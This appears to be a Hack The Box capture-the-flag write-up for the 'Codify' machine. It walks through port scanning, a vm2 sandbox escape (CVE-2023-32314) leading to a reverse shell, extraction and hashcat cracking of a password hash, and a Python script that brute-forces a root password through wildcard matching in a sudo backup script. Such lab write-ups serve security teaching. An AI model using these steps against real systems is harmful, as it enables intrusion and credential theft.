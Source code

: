 # HTB - Codify

### TL;DR
This is an Ubuntu 22.04 machine running a web application created with vulnerable version of vm2 library. Exploiting the vulnerability, we get inital foothold and pivot to ssh user is gained through password hunting in the file system. Escalation is achieved exploiting vulnerability in local backup shell script generating our own custom exploit.

**Keywords:**<br>
node.js, vm2, python exploit scripting

**References:**<br>
https://www.cvedetails.com/cve/CVE-2023-32314
https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac
https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target -p- -T4 -Pn --open --reason
nmap $target -p- -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-05 06:35 EST
Nmap scan report for 10.129.156.20
Host is up, received user-set (0.065s latency).
Not shown: 64814 closed tcp ports (conn-refused), 718 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

Nmap done: 1 IP address (1 host up) scanned in 30.45 seconds
```
There are 2 web servers running. If you browse with firefox, you see they are made with vm2 library.

![codify2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/67d649f9-bbb7-4e24-80a6-430cbdecafa8)

For reverse shell, we'll focus on exploiting vm2 vulnerabilities.
### PHASE 2: User
Searching for vm2 vulnerabilities, we came across this cve-2023-32314 (https://www.cvedetails.com/cve/CVE-2023-32314). A poc can be found in github: https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac. Running it in the application we have immediate code execution.

![codify1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3106cd02-8828-48bb-9a51-9f36691a0b4d)

Which can be used to send a `mkfifo nc` reverse shell.

![codify3jpg](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b968c1f1-5f35-4ea5-8027-e55803658b2d)

Once inside the machine, first step is to inspect the `/etc/passwd` file, which reveals our first step would be to pivot to user joshua.
```markdown
> cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```
Searching for interesting files in the file system, we came across this one `/var/www/contact/tickets.db`, which turns out to contain joshua's password hash.
```markdown
> cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua**$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2**
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```
This is a blowfish hash which can be cracked with `hashcat`.
```markdown
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt -r .\rockyou-30000.rule
```
ssh in as user joshua using found credentials and collect the flag.
### PHASE 3. System
Let's see if joshua is a sudoer.
```markdown
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
It seems he can sudo run a backup script located at `/opt/scripts/mysql-backup.sh`. Inspect the code of the script which reveals to be vulnerable to wildcard injection.

![codify4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/5d9dc9ca-0f30-47fa-bcca-f403f554bed5)

Using double brackets in the `if` comparison hypothetically allows us to use wildcards to guess the password, using a process similar to blind sql injections.
To find out more about the difference between single brackets and double brackets read this: https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching. In summary both conditions `[[$DB_PASS == Password123!]]` and `[[$DB_PASS == P* ]]` will be evaluated as true in the if statement.
To brute force the password you can use 3 methods:
1. Manually. Letter by letter, not recommended.
2. Semi-manually. Create a file called `letter` containing all lower-case, upper-case and digits and bruteforce them using a loop. Add letters sequentially as you discover in each iteration. The first loop iteration would look like this:
```markdown
>for i in $(cat letters);do echo a* | sudo /opt/scripts/mysql-backup.sh && echo "$i";done
```
As soon as you find a new character, add it to the for loop (e.g. `...echo abcde*...`) and repeat until no more letters are discovered.
3. Using a python script. Elegant and fast. The machine also has perl installed. A proposed python script would be the following:
```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
Running it, the root mysql password is revealed in less than a minute, which turns out to be a reuse of the system's root password.

![codify5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/651f989c-f9e3-4ae8-83a3-a5f97dc017b1)

